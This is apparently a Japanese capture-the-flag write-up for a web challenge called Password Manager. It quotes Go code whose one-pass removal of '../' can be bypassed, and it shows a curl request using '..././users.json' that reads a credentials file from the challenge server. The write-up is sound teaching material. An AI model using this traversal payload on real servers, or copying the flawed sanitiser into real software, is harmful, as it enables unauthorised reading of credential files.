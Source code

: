 ### Password Manager

50 Points / 357 Solves (22.7% of users)

タイトルにあるようにパスワードマネージャーの機能がある。  
ソースコードを確認すると、ユーザデータ初期化時にローカルファイルの`./user.json`からデータを読み込んでいる。  
`./user.json`にアクセスができればユーザとしてログインできそう。

以下関連しそうな部分のソースコード。

```go
<SNIP>
var PathReplacer = strings.NewReplacer(
 "../", "",
)
<SNIP>
func pages(w http.ResponseWriter, r *http.Request) {
 // You. Shall. Not. Path traverse!
 path := PathReplacer.Replace(r.URL.Path)

 if path == "/" {
  homepage(w, r)
  return
 }

 if path == "/login" {
  login(w, r)
  return
 }

 if path == "/getpasswords" {
  getpasswords(w, r)
  return
 }

 fullPath := "./pages" + path

 if _, err := os.Stat(fullPath); os.IsNotExist(err) {
  notfound(w, r)
  return
 }

 http.ServeFile(w, r, fullPath)
}
```

`../`を置き換える処理が入っているが、一回しか置き換わらないため、以下のようにすると`./user.json`にアクセスできる。

```bash
$ curl --path-as-is 'https://password-manager-web.chal.irisc.tf/..././users.json'
{
    "skat": "rf=easy-its+just&spicysines123!@"
}
```
